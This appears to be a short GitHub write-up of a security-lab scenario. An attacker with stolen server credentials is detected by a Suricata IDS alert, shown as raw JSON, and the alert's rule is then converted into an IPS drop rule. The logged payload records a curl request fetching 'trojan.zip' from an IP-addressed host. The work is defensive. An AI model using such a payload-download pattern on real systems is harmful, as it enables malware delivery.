

# senario

Sh was busy working on infrastructure-related tasks again today.
It's been an exceptionally hectic day. The DNS server went down, so Sh is performing maintenance on it. 
However, there's a crucial issue that Sh overlooked: not removing the users used to build the initial infrastructure, possibly because VMs were copied in Hyper-V during setup. 
The hacker gained knowledge of the server's password through an APT attack, and then the actual attack began.

# attack kill chain




# IDS Detect 

``` bash
{"@timestamp":"2023-12-20T20:41:51.416Z","@version":"1","data_stream.dataset":"suricata","data_stream.namespace":"so","data_stream.type":"logs","destination.ip":"192.168.35.20","destination.port":80,"ecs.version":"8.0.0","elastic_agent.id":"4ceb35a8-2852-41b6-a798-5c29e3b98def","elastic_agent.snapshot":false,"elastic_agent.version":"8.10.4","event.acknowledged":true,"event.category":"network","event.dataset":"suricata.alert","event.escalated":true,"event.ingested":"2023-12-20T20:41:56.920Z","event.module":"suricata","event.severity":2,"event.severity_label":"medium","input.type":"log","log.file.path":"/nsm/suricata/eve-2023-12-20-20:11.json","log.id.uid":"2065999454700556","log.offset":420257,"message":"{\"timestamp\":\"2023-12-20T20:41:51.416282+0000\",\"flow_id\":2065999454700556,\"in_iface\":\"bond0\",\"event_type\":\"alert\",\"vlan\":[50],\"src_ip\":\"10.50.1.5\",\"src_port\":54902,\"dest_ip\":\"192.168.35.20\",\"dest_port\":80,\"proto\":\"TCP\",\"pkt_src\":\"wire/pcap\",\"metadata\":{\"flowbits\":[\"http.dottedquadhost.zip\"]},\"community_id\":\"1:fm9EQGyFSNiFLoxwMEgz4bKqe44=\",\"tx_id\":0,\"alert\":{\"action\":\"allowed\",\"gid\":1,\"signature_id\":2027262,\"rev\":4,\"signature\":\"ET INFO Dotted Quad Host ZIP Request\",\"category\":\"Potentially Bad Traffic\",\"severity\":2,\"metadata\":{\"attack_target\":[\"Client_Endpoint\"],\"created_at\":[\"2019_04_23\"],\"deployment\":[\"Perimeter\"],\"former_category\":[\"INFO\"],\"performance_impact\":[\"Significant\"],\"signature_severity\":[\"Minor\"],\"updated_at\":[\"2020_04_08\"]},\"rule\":\"alert http $HOME_NET any -> $EXTERNAL_NET any (msg:\\\"ET INFO Dotted Quad Host ZIP Request\\\"; flow:established,from_client; flowbits:isset,http.dottedquadhost; flowbits:set,http.dottedquadhost.zip; flowbits:unset,http.dottedquadhost; http.request_line; content:\\\".zip HTTP/1.\\\"; nocase; fast_pattern; classtype:bad-unknown; sid:2027262; rev:4; metadata:attack_target Client_Endpoint, created_at 2019_04_23, deployment Perimeter, former_category INFO, performance_impact Significant, signature_severity Minor, updated_at 2020_04_08;)\"},\"app_proto\":\"http\",\"direction\":\"to_server\",\"payload_printable\":\"GET /vcknxz/trojan.zip HTTP/1.1\\r\\nHost: 192.168.35.20\\r\\nUser-Agent: curl/7.88.1\\r\\nAccept: */*\\r\\n\\r\\n\",\"stream\":1,\"packet\":\"ys7PV9LFqrZy3eAygQAAMggARQAANC+VQABABhw8CjIBBcCoIxTWdgBQqIAb1yFd18aAEAHP7xkAAAEBCAqUhBKkEscSfg==\",\"packet_info\":{\"linktype\":1}}","metadata.beat":"filebeat","metadata.input.beats.host.ip":"10.60.1.3","metadata.input_id":"logfile-logs-194bbf6d-c478-48df-9b2e-c61a4a24bc61","metadata.pipeline":"suricata.common","metadata.raw_index":"logs-suricata-so","metadata.stream_id":"logfile-log.logs-194bbf6d-c478-48df-9b2e-c61a4a24bc61","metadata.type":"_doc","metadata.version":"8.10.4","network.community_id":"1:fm9EQGyFSNiFLoxwMEgz4bKqe44=","network.data.decoded":"GET /vcknxz/trojan.zip HTTP/1.1\r\nHost: 192.168.35.20\r\nUser-Agent: curl/7.88.1\r\nAccept: */*\r\n\r\n","network.packet_source":"wire/pcap","network.transport":"TCP","network.vlan.id":[50],"observer.name":"shsensor","rule.action":"allowed","rule.category":"Potentially Bad Traffic","rule.gid":1,"rule.metadata.attack_target":["Client_Endpoint"],"rule.metadata.created_at":["2019_04_23"],"rule.metadata.deployment":["Perimeter"],"rule.metadata.former_category":["INFO"],"rule.metadata.performance_impact":["Significant"],"rule.metadata.signature_severity":["Minor"],"rule.metadata.updated_at":["2020_04_08"],"rule.name":"ET INFO Dotted Quad Host ZIP Request","rule.reference":"https://doc.emergingthreats.net/2027262","rule.rev":4,"rule.rule":"alert http $HOME_NET any -> $EXTERNAL_NET any (msg:\"ET INFO Dotted Quad Host ZIP Request\"; flow:established,from_client; flowbits:isset,http.dottedquadhost; flowbits:set,http.dottedquadhost.zip; flowbits:unset,http.dottedquadhost; http.request_line; content:\".zip HTTP/1.\"; nocase; fast_pattern; classtype:bad-unknown; sid:2027262; rev:4; metadata:attack_target Client_Endpoint, created_at 2019_04_23, deployment Perimeter, former_category INFO, performance_impact Significant, signature_severity Minor, updated_at 2020_04_08;)","rule.ruleset":"Emerging Threats","rule.severity":2,"rule.uuid":"2027262","source.ip":"10.50.1.5","source.port":54902,"tags":["alert","alert"],"soc_id":"oGH2iIwBh84sGsGls6l9","soc_score":6.9757867,"soc_type":"","soc_timestamp":"2023-12-20T20:41:51.416Z","soc_source":"mastersiem:.ds-logs-suricata-so-2023.12.20-000001"}
```

# IPS ADD

``` bash
drop http $HOME_NET any -> $EXTERNAL_NET any (msg:"ET INFO Dotted Quad Host ZIP Request"; flow:established,from_client; flowbits:isset,http.dottedquadhost; flowbits:set,http.dottedquadhost.zip; flowbits:unset,http.dottedquadhost; http.request_line; content:".zip HTTP/1."; nocase; fast_pattern; classtype:bad-unknown; sid:2027262; rev:4; metadata:attack_target Client_Endpoint, created_at 2019_04_23, deployment Perimeter, former_category INFO, performance_impact Significant, signature_severity Minor, updated_at 2020_04_08;)
```
